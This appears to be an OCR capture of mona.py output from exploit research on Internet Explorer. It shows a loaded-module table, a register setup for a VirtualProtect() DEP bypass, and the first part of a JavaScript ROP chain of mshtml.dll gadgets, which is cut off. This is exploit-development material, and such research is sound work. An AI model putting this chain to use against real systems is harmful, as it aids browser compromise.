 ```
 0x75e90000 | 0x75eb7000 | 0x00027000 | False  | True    | True  |  True    | True   | 6.1.7601.17514 [CFGMGR32.dll] (C:\Windows\system32\CFGMGR32.dll)
 0x77d00000 | 0x77d4e000 | 0x0004e000 | False  | True    | True  |  True    | True   | 6.1.7601.17514 [GDI32.dll] (C:\Windows\system32\GDI32.dll)
 0x75600000 | 0x75644000 | 0x00044000 | False  | True    | True  |  True    | True   | 6.1.7601.17514 [dnsapi.DLL] (C:\Windows\system32\dnsapi.DLL)
 0x00130000 | 0x001d6000 | 0x000a6000 | False  | True    | True  |  False   | False  | 8.0.7601.17514 [iexplore.exe] (C:\Program Files\Internet Explorer\iexplore.exe)
 0x750b0000 | 0x750b9000 | 0x00009000 | False  | True    | True  |  True    | True   | 6.1.7600.16385 [VERSION.dll] (C:\Windows\System32\VERSION.dll)
 0x77660000 | 0x77700000 | 0x000a0000 | False  | True    | True  |  True    | True   | 6.1.7601.17514 [ADVAPI32.dll] (C:\Windows\system32\ADVAPI32.dll)
 0x77700000 | 0x7789d000 | 0x0019d000 | False  | True    | True  |  True    | True   | 6.1.7601.17514 [SETUPAPI.dll] (C:\Windows\system32\SETUPAPI.dll)
 0x73b10000 | 0x73b45000 | 0x00035000 | False  | True    | True  |  True    | False  | 8.0.7601.17514 [IEShims.dll] (C:\Program Files\Internet Explorer\IEShims.dll)
 0x72a10000 | 0x72a4c000 | 0x0003c000 | False  | True    | True  |  True    | True   | 7.0.0.0 [OLEACC.dll] (C:\Windows\system32\OLEACC.dll)
-----------------------------------------------------------------------------------------------------------------------------------------

################################################################################

Register setup for VirtualProtect() :
--------------------------------------------
 EAX = NOP (0x90909090)
 ECX = lpOldProtect (ptr to W address)
 EDX = NewProtect (0x40)
 EBX = dwSize
 ESP = lPAddress (automatic)
 EBP = ReturnTo (ptr to jmp esp)
 ESI = ptr to VirtualProtect()
 EDI = ROP NOP (RETN)
 --- alternative chain ---
 EAX = ptr to &VirtualProtect()
 ECX = lpOldProtect (ptr to W address)
 EDX = NewProtect (0x40)
 EBX = dwSize
 ESP = lPAddress (automatic)
 EBP = POP (skip 4 bytes)
 ESI = ptr to JMP [EAX]
 EDI = ROP NOP (RETN)
 + place ptr to "jmp esp" on stack, below PUSHAD
--------------------------------------------


ROP Chain for VirtualProtect() [(XP/2003 Server and up)] :
----------------------------------------------------------


*** [ JavaScript ] ***

  //rop chain generated with mona.py - www.corelan.be
  rop_gadgets = unescape(
    "%u1f9f%u6b72" + // 0x6b721f9f : ,# POP EBP # RETN [mshtml.dll] 
    "%u1f9f%u6b72" + // 0x6b721f9f : ,# skip 4 bytes [mshtml.dll]
    "%u0f52%u6b43" + // 0x6b430f52 : ,# POP EAX # RETN [mshtml.dll] 
    "%ufdff%uffff" + // 0xfffffdff : ,# Value to negate, will become 0x00000201
    "%u5e7f%u6b6f" + // 0x6b6f5e7f : ,# NEG EAX # RETN [mshtml.dll] 
    "%u9a2e%u6b7f" + // 0x6b7f9a2e : ,# XCHG EAX,EBX # RETN [mshtml.dll] 
    "%ud820%u6b2e" + // 0x6b2ed820 : ,# POP EAX # RETN [mshtml.dll] 
    "%uffc0%uffff" + // 0xffffffc0 : ,# Value to negate, will become 0x00000040
    "%u2269%u6b2d" + // 0x6b2d2269 : ,# NEG EAX # RETN [mshtml.dll] 
```
